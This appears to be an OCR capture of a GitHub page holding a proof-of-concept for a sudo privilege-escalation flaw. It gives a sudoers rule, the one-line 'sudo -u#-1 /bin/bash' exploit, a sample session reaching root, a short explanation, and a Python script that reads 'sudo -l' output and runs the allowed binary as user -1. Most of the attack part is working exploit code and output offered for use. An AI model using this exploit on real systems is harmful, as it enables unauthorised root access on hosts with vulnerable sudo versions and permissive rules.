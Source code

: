 ```python

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
python3 sudo_exploit.py

'''
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")

#check which binary the user can run with sudo

os.system("sudo -l > priv")

os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

